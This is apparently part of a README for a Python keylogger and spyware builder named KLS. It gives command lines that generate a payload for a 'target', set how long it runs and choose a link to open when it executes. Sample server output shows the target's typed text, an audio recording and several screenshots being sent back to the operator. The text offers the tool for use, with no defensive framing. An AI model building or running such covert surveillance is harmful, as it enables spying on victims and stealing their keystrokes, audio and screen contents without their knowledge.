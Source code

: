 To activate simulation (every mousclick of the target will be displayed):
`python KLS_start.py -aip 127.0.0.1 -cf -ds -p -sim`

The standard filename is target.py

You can also specify the seconds which is going to be run at the target

`python KLS_start.py -aip 127.0.0.1 -cf test.py -s 120 -sim`

The default seconds is 60

To specify a link that will be opend when executed. Use:

`python KLS_start.py -aip 127.0.0.1 -cf test.py -s 120 -phs https://www.google.com -sim`


After running the code you can send the created filename

After the specified seconds your directory will look like this: 


![endresult](https://user-images.githubusercontent.com/106278241/210905855-35bc8cc1-435e-4dc6-bae7-62fcdedd1484.png)


Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established ![img_2.png](img_2.png)with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...
```